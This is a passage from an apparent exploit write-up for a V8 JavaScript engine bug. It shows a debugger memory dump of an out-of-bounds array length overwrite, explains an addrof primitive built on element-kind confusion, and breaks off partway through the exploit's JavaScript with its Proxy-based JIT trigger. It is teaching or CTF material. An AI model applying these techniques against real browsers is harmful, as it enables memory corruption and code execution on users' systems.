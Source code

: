 ### After [5]

Now when `4.1835592388585281e-216` is pushed, it would be located at `0x154a000dbd84`

```console
gef> tele 0x154a000dbd45-0x1 # &a
0x154a000dbd44|+0x0000|+000: 0x0000001000000565  # This is how JIT'd function `f` sees `a` elements as `HOLEY_DOUBLE_ELEMENTS` kind
0x154a000dbd4c|+0x0008|+001: 0x000dbd6d000dbd29  # a[0]
0x154a000dbd54|+0x0010|+002: 0x000006e9000006e9  # a[1]
0x154a000dbd5c|+0x0018|+003: 0x000006e9000006e9  # a[2]
0x154a000dbd64|+0x0020|+004: 0x000006e9000006e9  # a[3]
0x154a000dbd6c|+0x0028|+005: 0x9999999a000007b1  # a[4]
0x154a000dbd74|+0x0030|+006: 0x0018eff13fb99999  # a[5] 
0x154a000dbd7c|+0x0038|+007: 0x000dbd95000006cd  # a[6]
0x154a000dbd84|+0x0040|+008: 0x1337133700010000  # a[7] (recently pushed)
gef> tele 0x154a000dbd79-0x1  # &oob_arr (from `oob_arr` object perspective)
0x154a000dbd78|+0x0000|+000: 0x000006cd0018eff1  # map = 0x18eff1, properties = 0x6cd
0x154a000dbd80|+0x0008|+001: 0x00010000000dbd95  # elements = 0xdbd95, length = 0x10000 >> 1 = 0x8000
0x154a000dbd88|+0x0010|+002: 0x0000000213371337
gef> c
d8> oob_arr.length.toString(16)
"8000"
```

## addrof Primitive

After overwriting `oob_arr` object length, we have out-of-bound (OOB) access as
the actual `oob_arr.elements` length is smaller than the array object length.
Let's use this OOB access to build `addrof` primitive.

If we have an array which stores an object, the array `elements` would store
the address of the object and accessing this through the declared array would
return us the object itself but not the address due to the element kind is set
accordingly. Things get interesting when we try to access this object from
another array whose element kind is of `PACKED_DOUBLE_ELEMENTS` or `HOLEY_DOUBLE_ELEMENTS`.
Since every elements in this array is interpreted as pure immediate value, the
array would not try to derefence any value. Thus, returning us the pointer
to the object.

> [!NOTE]
> SMI array works too but it only accesses 32-bit value at a time, unlike double
> array which accesses 64-bit value at a time.

Now, we introduce `obj_leaker` which would serve as an array that stores an
object and helper functions to perform the OOB access and conversion between
integer and floating number.

```js
let a;
let oob_arr;
let obj_leaker;

let jitted = false

let p = new Proxy(Object, {
    get: function() {
        if (jitted) {
            a[0] = {};
            oob_arr = Array(1);
            oob_arr[0] = 1.1;
            obj_leaker = [a, 2.2];
        }
        return Object.prototype;
    }
```